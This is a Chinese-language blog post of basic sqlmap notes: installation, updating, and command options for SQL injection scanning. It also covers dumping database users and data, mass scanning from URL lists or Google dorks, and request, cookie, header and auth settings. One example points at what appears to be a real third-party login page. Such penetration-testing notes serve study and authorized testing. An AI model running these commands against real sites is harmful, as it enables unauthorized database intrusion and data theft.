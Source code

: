 ```yaml
---
layout: post
title: SQLmap基础笔记
categories: Security
description: SQLmap基础笔记
keywords: sqlmap
---
```


数据库直接连接(其他特性)
```
-d
```
安装
```
apt-get install git
git clone https://github.com/sqlmapproject/sqlmap.git /usr/local/src/sqlmap/sqlmap-dev

vi /etc/profile
    #sqlmap 环境变量
    alias sqlmap='python /usr/local/src/sqlmap/sqlmap-dev/sqlmap.py'
source /etc/profile
```


更新
```
sqlmap --update
```

### targrt

---

get基础扫描


```
sqlmap -u "http://tmc.sunriver.cn:90/Member/Login" -p username -f
--users     ##查询数据库账号
--banner    ##数据库banner信息
--dbs       ##目标具备哪些库
--schema    ##定义数据的数据
-a          ##全部数据

sqlmap -m urllist.ext       ##列表批量扫描
sqlmap.py -g "inurl:\".php?id=1\        ##google搜索后扫描

```
post基础扫描


```
sqlmap -r request.txt       ##使用burpsuite请求文件
sqlmap -l log.txt           ##使用burpsuite日志文件

```


https扫描

```
sqlmap -u “https://1.1.1.1/a.php?id=1:8843” --force-ssl
```

配置扫描文件
```
sqlmap -c sqlmap.conf
```

---


### request

---

数据段 --data

get/post方式都适用

```
sqlmap -u "http://1.1.1.1/a.php" --data="user=1&pass=2" -f
&              ##默认分隔符
--param-del    ##变量分隔符
sqlmap -u "http://1.1.1.1/a.php" --data="q=foo;id=1" --param-del=";" -f
```
基于cookie检测
```
sqlmap -u "http://1.1.1.1/a.php?id=1" --cookie="a=1;b=2" -f
```

随机user-agent

```
--random-agent
```
指定useragent
```
--user-agent=“xxxxxxxxx”

/usr/share/sqlmap/txt/user-agents.txt       ##查询user-agent信息
```

额外header
```
sqlmap -u "http://1.1.1.1/a.php?id=1" --headers="host:www.a.com
\nUser-Agent:yuanfh"
```
指定GET/POST
```
medhod=GET/POST
```
http协议身份认证
```
sqlmap. -u "http://1.1.1.1/a.php?id=1" --auth-type Basic --auth-cred
"user:pass“
```

